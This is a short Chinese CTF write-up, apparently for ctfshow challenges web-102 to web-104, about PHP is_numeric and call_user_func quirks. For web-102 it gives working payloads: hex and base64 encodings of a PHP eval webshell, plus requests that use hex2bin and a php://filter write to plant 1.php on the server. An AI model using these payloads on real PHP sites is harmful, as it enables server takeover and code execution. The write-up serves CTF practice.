 我们可以手动爆破或通过bp，猜flag的最后一位（不演示了）

------

### web-102

考察call_user_func函数和php版本特性

```
$a='<?=`cat *`;';       //为什么用这个，主要是因为编码后带e,或者是编码后全部是数字
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
//输出   5044383959474e6864434171594473
带e会被当做科学计数法，而base64去掉等号，不影响解码
bin2hex把ascii码转为16进制

payload：
php5中is_numeric函数认识16进制数，而php7这个函数不识别16进制数，
hex2bin将16进制转换为ascii码，<?php eval($_POST[1]);?>的16进制编码为

0x3c3f706870206576616c28245f504f53545b315d293b3f3e
php5:
v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
post:v1=hex2bin
之后访问1.php

php7:
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php 
post: v1=hex2bin
需要随便填充一些数字，从第二个字符开始截取的(也就是第三个，是从0开始的)
之后访问1.php

```

------



### web-103

跟上题做法一模一样

------

### web-104

直接输入两个相同的值

```
?v2=1
v1=1
```



### 
